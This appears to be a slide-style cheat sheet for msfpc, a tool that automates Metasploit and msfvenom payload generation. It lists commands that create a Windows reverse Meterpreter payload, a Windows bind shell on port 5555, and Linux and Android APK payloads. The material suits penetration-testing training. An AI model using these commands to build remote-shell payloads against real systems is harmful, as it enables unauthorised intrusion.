

# msfpc
Tools that generate various payloads based on user-specific options
Automate the processes involved in working with Metasploit and msfvenom
Instructions with msfpc -h
Automatically generate a Windows reverse Meterpreter payload, using the IP address of the eth0 interface as the LHOST parameter.
msfpc windows eth0
Semi-interactively create a Windows Meterpreter bind shell on port 5555.
msfpc windows bind 5555 verbose
msfpc linux
msfpc apk